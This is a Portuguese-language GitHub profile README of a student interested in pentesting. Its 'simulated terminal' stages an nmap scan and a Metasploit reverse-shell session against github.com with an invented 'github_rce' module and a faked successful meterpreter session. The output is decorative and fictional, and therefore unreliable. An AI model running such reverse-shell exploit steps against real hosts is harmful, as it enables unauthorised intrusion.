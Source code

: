 <!-- Banner ASCII -->
██╗  ██╗ █████╗  ██████╗██╗  ██╗███████╗██████╗     
██║ ██╔╝██╔══██╗██╔════╝██║ ██╔╝██╔════╝██╔══██╗    
█████╔╝ ███████║██║     █████╔╝ █████╗  ██║  ██║    
██╔═██╗ ██╔══██║██║     ██╔═██╗ ██╔══╝  ██║  ██║    
██║  ██╗██║  ██║╚██████╗██║  ██╗███████╗██████╔╝     
╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚═════╝       
![Matrix Rain](https://i.gifer.com/origin/7c/7c9a8e4d75964fbb6b4fba0625b7e0e4_w200.gif)

---

## 👾 Sobre mim
> 💻 Estudante de **Ciência da Computação**  
> 🔐 Foco em **Cibersegurança, Pentest e Automação**  
> 🐧 Apaixonado por **Linux e hacking ético**  
> 🚀 Sempre explorando novas tecnologias  

---

## 🛠️ Skills & Tools
![Linux](https://img.shields.io/badge/Linux-000000?style=for-the-badge&logo=linux&logoColor=white)
![Python](https://img.shields.io/badge/Python-14354C?style=for-the-badge&logo=python&logoColor=yellow)
![Bash](https://img.shields.io/badge/Bash-121011?style=for-the-badge&logo=gnu-bash&logoColor=green)
![Networking](https://img.shields.io/badge/Networking-0a0a0a?style=for-the-badge&logo=cisco&logoColor=00ff00)
![CyberSec](https://img.shields.io/badge/CyberSec-111111?style=for-the-badge&logo=protonvpn&logoColor=00ff00)

---

## ⚡ Terminal Simulado

```bash
┌──(joao㉿github)-[~/]
└─$ whoami
joao

┌──(joao㉿github)-[~/]
└─$ uname -a
Linux kali 6.6.12-arch1 #1 SMP PREEMPT_DYNAMIC x86_64 GNU/Linux

┌──(joao㉿github)-[~/]
└─$ nmap -A github.com
Starting Nmap 7.93 ( https://nmap.org ) at 2025-08-28
Nmap scan report for github.com (140.82.121.3)
Host is up (0.032s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh      OpenSSH 9.2
80/tcp  open  http     GitHub Web
443/tcp open  https    GitHub Secure
┌──(joao㉿github)-[~/]
└─$ msfconsole

msf6 > use exploit/multi/http/github_rce
msf6 exploit(github_rce) > set RHOSTS github.com
RHOSTS => github.com
msf6 exploit(github_rce) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf6 exploit(github_rce) > set LHOST 192.168.0.133
LHOST => 192.168.0.133
msf6 exploit(github_rce) > run

[*] Started reverse TCP handler on 192.168.0.133:4444 
[*] Exploiting target github.com...
[*] Sending payload...
[+] Payload executed successfully!
[*] Meterpreter session 1 opened (192.168.0.133:4444 -> 140.82.121.3:443)

meterpreter > sysinfo
Computer     : github-server
OS           : Linux
Architecture : x64
Meterpreter  : x86/linux

📊 Status do Sistema

┌──(system㉿github)-[~/logs]
└─$ tail -f visitors.log

[2025-08-28 08:00:01] Incoming connection detected...
[2025-08-28 08:00:02] IP: 192.168.133.42  STATUS: ACCESS GRANTED ✅
[2025-08-28 08:00:03] Visitor count updated:

🌍 Contato
	•	🔗 LinkedIn
	•	📧 seuemail@email.com

+ Status: Online
+ Modo: Aprendizado Ativo
- Erros: Nenhum detectado
